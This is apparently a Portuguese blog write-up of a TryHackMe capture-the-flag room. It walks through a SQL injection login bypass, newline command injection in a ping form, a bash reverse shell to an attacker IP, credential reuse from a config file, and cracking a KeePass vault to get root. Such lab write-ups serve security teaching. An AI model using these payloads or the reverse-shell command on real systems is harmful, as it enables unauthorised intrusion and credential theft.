


> Writeup da room **Silent Monitor** (TryHackMe): bypass de login por SQLi, command injection por
> newline num health-check, um pivot por `secret.config`, um cofre KeePass quebrado com `john` e
> escalada a root. As flags aparecem **redigidas** (`REDACTED`). _[Read in English](/posts/thm-silent-monitor-en/)._

A piada da máquina está no nome. É um "monitor silencioso": um portal de NOC que fica o tempo todo
registrando tudo que os operadores fazem — e esse mesmo zelo com o _audit log_ é o que entrega a
chave do ataque. O painel que deveria vigiar você acaba te mostrando, linha por linha, por onde entrar.

A cadeia inteira, em uma frase: enumerar o NOC → furar o login com um **SQLi** de aspas balanceadas
→ ler o **audit log**, que vaza a técnica de **command injection** usada por quem veio antes →
executar comando por **newline** no health-check → virar `www-data` → ler o `secret.config` e
**pular pro `sysadmin` via SSH** → achar um **cofre KeePass**, quebrar a senha-mestra com `john` →
o cofre entrega a **senha do root** → `su root`.

## Recon: duas portas e um Flask se passando de produção

Scan rápido com [rustscan](https://github.com/RustScan/RustScan) empurrando o nmap por trás:

```console
$ rustscan -b 500 -a silent.thm --top -- -sC -sV -Pn
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.15 (Ubuntu Linux; protocol 2.0)
5050/tcp open  http    Werkzeug httpd 2.0.2 (Python 3.10.12)
|_http-title: CorpNet \xE2\x80\x94 Network Operations Centre
|_http-methods: Supported Methods: HEAD OPTIONS GET
```

Só duas portas. SSH na 22 e, na 5050, um **Werkzeug** — ou seja, o _dev server_ do Flask rodando em
produção, o que já é um cheiro de "app caseiro, feito às pressas". O título entrega o tema: **CorpNet
— Network Operations Centre**.


A home é institucional e não faz nada de útil. Um `gobuster` com a `common.txt` da SecLists acha o
único caminho que interessa:

```console
$ gobuster dir -u http://silent.thm:5050/ -w ~/Sec/Tools/Wordlists/SecLists/Discovery/Web-Content/common.txt
internal             (Status: 200) [Size: 8770]
```

`/internal`. Uma tela de login de operador.

## SQLi: aspas balanceadas passam onde o payload de manual trava

O `/internal` é um "Sign In to NOC Portal". Campo de usuário, campo de senha, e um avisinho honesto:
_"All sessions are monitored and logged."_ Guarde essa frase — ela vai se vingar do próprio dono mais
tarde.

Login de app Flask + banco local quase sempre é uma query montada na mão — então, em vez de adivinhar
o payload certo, deixo o Burp adivinhar por mim. Mando o **Intruder** com uma
[wordlist de bypass de login do HackTricks](https://github.com/HackTricks-wiki/hacktricks/blob/master/src/pentesting-web/login-bypass/sql-login-bypass.md)
no campo de usuário, senha fixa em `admin`, e **ordeno os
resultados por `Content-Length`**. Quase todos devolvem a mesma coisa — `200` e os ~8,7 KB da própria
tela de login (falha). Um único destoa: um `302` que redireciona pro `/internal/dashboard`. O payload
vencedor é o de **aspas balanceadas**:

```text
username: ' or 1 or '
password: admin
```


A lógica: a query é algo como `… WHERE username='<u>' AND password='<p>'`. Injetando `' or 1 or '`,
ela vira `WHERE username='' or 1 or '' AND password='admin'` — sintaxe **fechada**, sem comentário
pendurado, e aquele `1` solto no meio é sempre verdadeiro. Resultado: casa com a primeira linha da
tabela e me loga como ela. Redireciona direto pro `/internal/dashboard`.

Por que a variante importa? Porque o payload clássico com comentário (`#` ou `--`) depende de o SGBD
engolir o resto da linha; quando não engole, você ganha um erro de sintaxe em vez de uma sessão. As
aspas balanceadas não dependem disso. (E tem uma prova disso logo ali embaixo, no audit log.)

## O audit log: a máquina dedurando os ataques — inclusive o próximo

O dashboard é um NOC de araque, mas o cartão **Audit Log** é o coração da room. Logado como `netops`
(role `operator`), ele lista, com carinho, tudo que os operadores andaram fazendo:


Repare nas linhas. Tem um `LOGIN_FAIL` de `admin' --` e dois `LOGIN_ERROR` de `' OR 1=1#` — alguém
tentou os payloads de livro e **quebrou a sintaxe** (por isso `ERROR`, não só `FAIL`), confirmando
exatamente por que o meu `' or 1 or '` passou. Mas o ouro mesmo é esta:

```text
TIMESTAMP             OPERATOR   EVENT          DETAIL
2026-05-19 03:16:04   netops     HEALTH_CHECK   127.0.0.1%0awhoami
2026-05-19 03:15:52   netops     HEALTH_CHECK   127.0.0.1%0awhoami
2026-05-19 03:15:39   netops     HEALTH_CHECK   127.0.0.1
```

O log registra o `DETAIL` **cru** do health-check — e ali está, escrito em letras garrafais, um
`127.0.0.1%0awhoami`. O "silent monitor" acabou de me entregar a técnica da próxima etapa: injeção
de comando separada por **newline** (`%0a`). Quem deixou isso gravado foi uma alma caridosa (ou o
próprio autor da room); eu só precisei ler.

## Command injection: o health-check roda ping num shell

O menu lateral tem um **Host Health** — um "ICMP reachability probe". Você digita um host e ele dá um
ping. As _usage notes_ são sinceras: _"All probe targets are recorded in the operator audit log"_ (daí
o vazamento acima).



Um ping num campo de texto tem 9 chances em 10 de estar montado com `shell=True`. O audit log já me
disse qual separador usar; é só confirmar. O detalhe prático: o `<input>` do formulário **remove a
quebra de linha** no navegador, então mandar `127.0.0.1` + Enter no campo não adianta — o `%0a` tem
que chegar _cru_ no corpo da requisição. Pelo Burp (ou um `curl` com o corpo à mão):

```http
POST /internal/health HTTP/1.1
Host: silent.thm:5050
Content-Type: application/x-www-form-urlencoded
Cookie: session=...

target=127.0.0.1%0aid
```

E a resposta renderiza o comando no `<pre>` de saída:



```text
$ ping -c 2 -W 1 127.0.0.1 id
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.024 ms
...
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

O servidor monta algo como `ping -c 2 -W 1 <target>`; o `%0a` vira uma nova linha no shell e o `id`
executa em seguida. RCE como `www-data`. Troco o `id` por uma reverse shell e uso o
[penelope](https://github.com/brightio/penelope) como handler (PTY decente e log de sessão de graça):

```text
target=127.0.0.1%0abash -i >& /dev/tcp/10.x.x.x/4445 0>&1
```

```console
$ penelope -p 4445
[+] Shell => www-data@tryhackme-2204
www-data@tryhackme-2204:/opt/netops$ ls -l
-rw-r--r-- 1 root     root      7283 app.py
-rw-rw---- 1 www-data www-data 20480 netops.db
-rw-r----- 1 root     www-data   446 secret.config
drwxr-x--- 2 root     www-data  4096 templates
```

Ali está o `netops.db` (o SQLite que eu furei no login) e, melhor ainda, um `secret.config` com modo
`640 root:www-data` — eu, do grupo `www-data`, posso ler.

## Pivot: o secret.config entrega o sysadmin

O `secret.config` é a configuração do próprio serviço — e, como quase toda config caseira, guarda
mais do que devia:

```ini
[app]
path             = /opt/netops
timeout          = 1
log_path         = /var/log/netops/audit.log
session_lifetime = 1800
run_as           = sysadmin
password         = <redigida>

[smtp]
host = 127.0.0.1
port = 25
from = noc@corpnet.thm
```

O `run_as = sysadmin` e a senha em claro logo abaixo. Confirmei que `sysadmin` é conta de verdade
olhando os homes:

```console
www-data@tryhackme-2204:/opt/netops$ ls /home
sysadmin  ubuntu
```

A senha não funciona com `su sysadmin` (sem TTY), mas o SSH aceita numa boa — e de quebra me dá um
terminal estável:

```console
$ ssh sysadmin@silent.thm
sysadmin@tryhackme-2204:~$ cat user.txt
THM{REDACTED  ·  user}
```

Primeira flag no bolso. Reúso de credencial entre o config do serviço e o usuário do sistema — o
pecado de sempre.

## KeePass: um cofre com a senha do root e uma senha-mestra de brincadeira

Vasculhando os arquivos do `sysadmin`, aparece um cofre do **KeePass**: `infrastructure.kdbx`. Nome
promissor. Trago pra minha máquina (`scp`, ou um `python3 -m http.server` do outro lado) e extraio o
hash da senha-mestra com o `keepass2john`:

```console
$ keepass2john infrastructure.kdbx > kdbx.hash
$ cat kdbx.hash
infrastructure:$keepass$*4*15000*c9d9f39a*0*0*0*dfac336b...
```

É um KeePass 2 com KDF Argon2. Jogo o `john` com a `rockyou` em cima:

```console
$ john --wordlist=~/Sec/Tools/Wordlists/rockyou.txt kdbx.hash
Loaded 1 password hash (KeePass [AES/Argon2 128/128 SSE2])
spring           (infrastructure)
1 password hash cracked, 0 left
```

A senha-mestra do cofre de "infraestrutura"? `spring`. Uma palavra da `rockyou`. Para um cofre que
guarda credenciais de infra, isso é quase uma ofensa — e é o recado da room: um KeePass só vale a
senha-mestra que o protege.

Abro o `.kdbx` (`keepassxc-cli`, `pykeepass`, o que estiver à mão) e leio as entradas:

```text
TITLE: Root User Password - Sensitive   USER: root   PASS: S3cur3P4ss0nK33p4ss
  NOTES: root user password, remember to change later.
TITLE: Sample Entry #2                   USER: Michael321   PASS: 12345
```

A segunda entrada é a amostra padrão que todo banco KeePass novo já traz — ruído. A primeira é o
prêmio: a senha do **root**, com uma nota de "lembrar de trocar depois" que, previsivelmente, ninguém
trocou.

## Root: a senha estava no cofre o tempo todo

Com a senha na mão, a escalada é um `su`:

```console
sysadmin@tryhackme-2204:~$ su root
Password: S3cur3P4ss0nK33p4ss
root@tryhackme-2204:/home/sysadmin# cat /root/root.txt
THM{REDACTED  ·  root}
```

Root. Máquina inteira.

Uma nota de rodapé para quem gosta de ter plano B: o kernel aqui é um `6.8.0-1017-aws` (Ubuntu
22.04), que ficou exposto ao LPE conhecido como **copy_fail** (CVE-2026-31431) — uma falha no kernel
que permite a um usuário sem privilégio obter execução como root. Com a senha do cofre em mãos, não
precisei desse caminho; mas ele existe e é o lembrete de sempre: **mantenha o kernel atualizado**, não
dá pra confiar só nas permissões do espaço de usuário.

## O que fica

Silent Monitor não tem nenhum truque exótico — tem **boa narrativa**. Cada etapa aponta a próxima, e
a lição está embrulhada no tema do "monitor silencioso":

- **Werkzeug em produção.** O _dev server_ do Flask na porta pública já avisa que o app é caseiro e
  provavelmente cheio de atalhos. Estava.
- **SQLi de aspas balanceadas.** Quando o `--`/`#` quebra a query, a variante `' or 1 or '` fecha a
  sintaxe e passa. Vale ter mais de um payload no cinto.
- **Logging que vira vetor.** O audit log gravava o input cru do health-check — inclusive os payloads
  de injeção de quem veio antes. Log é ótimo; logar segredo e entregá-lo pro atacante, não. Trate o
  conteúdo do log como dado sensível.
- **Command injection por newline.** `ping` com `shell=True` e um `%0a` no meio. E o detalhe tático:
  o `<input>` engole a quebra de linha, então o payload tem que ir cru no corpo, pelo Burp.
- **Segredo em arquivo de config.** `secret.config` com `run_as` + senha em claro, legível pelo
  grupo do serviço. Credencial de serviço reutilizada como senha de login de sistema.
- **KeePass é tão forte quanto a senha-mestra.** O cofre de "infraestrutura" estava protegido por
  `spring` — uma palavra da `rockyou`. O cofre certo, a senha errada.
- **Senha de root em texto, "trocar depois".** A nota dizia para trocar. Ninguém trocou. Nunca
  ninguém troca.

O que a room faz de bonito é transformar o mecanismo de defesa — o audit log, o "tudo é monitorado" —
no próprio mapa do ataque. É um bom lembrete de que telemetria mal pensada não protege: ela documenta,
com data e hora, exatamente como você foi invadido.
